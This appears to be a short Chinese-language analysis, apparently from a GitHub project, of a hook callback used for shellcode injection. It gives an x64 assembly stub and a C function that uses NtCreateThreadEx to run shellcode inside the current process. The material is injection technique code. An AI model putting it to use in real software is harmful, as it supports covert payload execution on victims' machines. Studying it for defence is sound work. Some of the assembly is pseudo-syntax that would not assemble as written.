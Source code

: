 ## Callback 结构分析

### Callback Shellcode

```assembly
; 检查全局标志（防止递归）
mov rdx, 0x7fffffffffff    ; 全局变量地址（运行时填充）
cmp byte [rdx], 0
je callback_start          ; 如果为 0，执行 callback
jmp restore_execution      ; 否则跳过

callback_start:
    ; 保存寄存器
    push r10, rax, rbx, rbp, rdi, rsi, rsp
    push r12, r13, r14, r15

    ; Shadow space
    sub rsp, 32

    ; 调用 DisposableHook(shellcode_addr, &global_var)
    lea rcx, [shellcode_placeholder]
    call DisposableHook

    ; 恢复栈和寄存器
    add rsp, 32
    pop r15, r14, r13, r12
    pop rsp, rsi, rdi, rbp, rbx, rax, r10

restore_execution:
    jmp r10    ; 恢复原始 RIP
```

### DisposableHook

```c
void DisposableHook(LPVOID shellcodeAddr, char *threadCreated) {
    NTSTATUS status;
    HANDLE tHandle = NULL;
    OBJECT_ATTRIBUTES objAttr = { sizeof(objAttr) };

    // 原子交换，防止多线程重复执行
    if (InterlockedExchange8(threadCreated, 1) == 1)
        return;

    // 调用 NtCreateThreadEx 创建线程执行 shellcode
    status = NtCreateThreadEx(
        &tHandle,
        GENERIC_EXECUTE,
        &objAttr,
        (HANDLE)-1,                // 当前进程
        shellcodeAddr,
        NULL,
        FALSE,
        0, 0, 0,
        NULL
    );

    if (status != 0)
        InterlockedExchange8(threadCreated, 0);  // 失败则重置标志
}
```
